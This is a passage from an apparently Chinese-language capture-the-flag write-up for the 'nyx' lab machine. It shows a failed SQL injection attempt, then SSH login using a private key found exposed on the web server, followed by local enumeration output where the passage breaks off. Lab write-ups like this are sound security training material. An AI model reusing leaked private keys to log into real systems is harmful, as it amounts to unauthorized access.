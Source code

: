 - 查看key.php页面,尝试进行sql注入无果-->提交位置为空,看起来更像是兔子洞
- ![image-20230820141345018](https://raw.githubusercontent.com/r0o983/images/main/202308201413144.png)



### 获取shell

- 根据之前在**基础漏洞扫描**时获得了一个php文件目录,访问后发现是一个ssh的私钥文件,尝试使用私钥文件进行登录

- ![image-20230820145601486](https://raw.githubusercontent.com/r0o983/images/main/202308201456588.png)

- 尝试使用root进行连接,依然需要密码,返回页面查看,发现`title`处提示`mpampis key`,使用mpampis用户名进行尝试

- ![image-20230820145918299](https://raw.githubusercontent.com/r0o983/images/main/202308201459346.png)

- 登录ssh获得初始shell,获得用户`flag`

- ```shell
  ┌──(kali㉿kali)-[~/Desktop/walkthroughs/nyxvm]
  └─$ ssh -i id_rsa mpampis@192.168.2.8                               
  The authenticity of host '192.168.2.8 (192.168.2.8)' can't be established.
  ED25519 key fingerprint is SHA256:y+UuWVNQjou5NV3bhJKmkFBqomxtGR0c5ydJPwmIz+E.
  This key is not known by any other names.
  Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
  Warning: Permanently added '192.168.2.8' (ED25519) to the list of known hosts.
  Linux nyx 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
  ███▄▄▄▄   ▄██   ▄   ▀████    ▐████▀ 
  ███▀▀▀██▄ ███   ██▄   ███▌   ████▀  
  ███   ███ ███▄▄▄███    ███  ▐███    
  ███   ███ ▀▀▀▀▀▀███    ▀███▄███▀    
  ███   ███ ▄██   ███    ████▀██▄     
  ███   ███ ███   ███   ▐███  ▀███    
  ███   ███ ███   ███  ▄███     ███▄  
   ▀█   █▀   ▀█████▀  ████       ███▄ 
  Last login: Fri Aug 14 19:15:05 2020 from 192.168.1.18
  mpampis@nyx:~$ ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
      link/ether 00:0c:29:76:ff:df brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.8/24 brd 192.168.2.255 scope global dynamic ens33
         valid_lft 1284sec preferred_lft 1284sec
      inet6 fe80::20c:29ff:fe76:ffdf/64 scope link 
         valid_lft forever preferred_lft forever
  mpampis@nyx:~$ whoami
  mpampis
  mpampis@nyx:~$ id
  uid=1000(mpampis) gid=1000(mpampis) groups=1000(mpampis),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
  mpampis@nyx:~$ ls -lhai
  total 36K
  138973 drwxr-xr-x 4 mpampis mpampis 4.0K Aug 14  2020 .
      19 drwxr-xr-x 3 root    root    4.0K Aug 14  2020 ..
  139223 -rw------- 1 mpampis mpampis  490 Aug 14  2020 .bash_history
  138974 -rw-r--r-- 1 mpampis mpampis  220 Aug 14  2020 .bash_logout
  138975 -rw-r--r-- 1 mpampis mpampis 3.5K Aug 14  2020 .bashrc
  139220 drwxr-xr-x 3 mpampis mpampis 4.0K Aug 14  2020 .local
  138976 -rw-r--r-- 1 mpampis mpampis  807 Aug 14  2020 .profile
  139214 drwx------ 2 mpampis mpampis 4.0K Aug 14  2020 .ssh